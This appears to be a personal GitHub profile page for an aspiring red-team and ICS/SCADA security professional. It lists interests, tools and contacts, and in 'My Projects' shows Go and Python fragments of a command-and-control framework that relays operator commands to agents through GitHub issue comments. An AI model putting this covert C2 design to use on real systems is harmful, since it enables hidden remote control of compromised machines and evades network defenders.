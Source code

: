 ```yaml
---
layout: default
---
```


# Siva G - (Aspiring)Cybersecurity Professional

Welcome to my personal GitHub page! I'm **Siva G**, a cybersecurity master's graduate passionate about **red teaming, ICS/SCADA security, and military cybersecurity**. My work blends **digital forensics, threat hunting, and offensive security** to create innovative solutions.

## About Me

I'm currently focused on specializing in **cybersecurity operations, red teaming, and ICS/SCADA security**. My goal is to secure a well-paying role in the field with a strong work-life balance and ever curious peers. I also have a keen interest in **developing a robust C2 framework using Rust, Python, Golang, and Discord**.

> "Не шагу назад" *(Not a step back)*
>
> Cybersecurity is more than a profession; it's a battlefield where only the strongest and smartest thrive.

## My Interests

- **Red Teaming & Exploitation**: Passionate about offensive security and developing C2 frameworks.
- **ICS/SCADA Security**: Securing industrial control systems against cyber threats.
- **Fitness & Adventure**: Swimming, running, and self-defence.

### My Projects

```go
//actual snippet from the agent.go
func executeCommands() {
	for {
		url := fmt.Sprintf("https://api.github.com/repos/%s/issues/%d/comments", repoName, issueNumber)
		req, _ := http.NewRequest("GET", url, nil)
		req.Header.Set("Authorization", "token "+githubToken)
		req.Header.Set("Accept", "application/vnd.github.v3+json")

		client := &http.Client{}
		resp, err := client.Do(req)
		if err != nil {
			log.Println("❌ Failed to fetch commands:", err)
			continue
		}
		defer resp.Body.Close()
```

```python
#Also an actual code snippet from app.py
def submit():
    data = request.get_json()
    agent_id = data.get("agent")
    command = data.get("message")

    if not agent_id or not command:
        return jsonify({"error": "Invalid request"}), 400

    response = requests.post(
        f"https://api.github.com/repos/{GITHUB_REPO}/issues/{agent_id}/comments",
        json={"body": f"Command: {command}"},
        headers=HEADERS
    )

    if response.status_code == 201:
        return jsonify({"success": "Command submitted"}), 200
    return jsonify({"error": "Failed to send command"}), 500
```

## Tools & Technologies

| Category       | Tools & Skills                          |
|:--------------|:---------------------------------|
| Programming   | Rust, Python, Go, Bash         |
| Security      | Red Teaming, Threat Hunting    |
| Forensics     | Sleuthkit, YARA, Volatility    |
| Cloud         | Azure (AZ900, AZ500)      |
| OS           | Kali Linux      |

## My Vision

**Cybersecurity** is a never-ending chess game, and I aim to stay **several moves ahead**. Whether it's **securing industrial control systems** or **outmaneuvering adversaries in the digital battlefield**, my mission is to **test** the **boundaries of my limits**—preferably with a **strong cup of coffee** and an **optimized terminal setup**.

## Contact Me

- **GitHub**: [CaptShiva007](https://github.com/captshiva007)
- **LinkedIn**: [Siva G](https://linkedin.com/in/captshiva007)
- **Email**: [shivasepicjourney@gmail.com](mailto:shivasepicjourney@gmail.com)


---

*This page is constantly evolving. Stay tuned for more updates!*

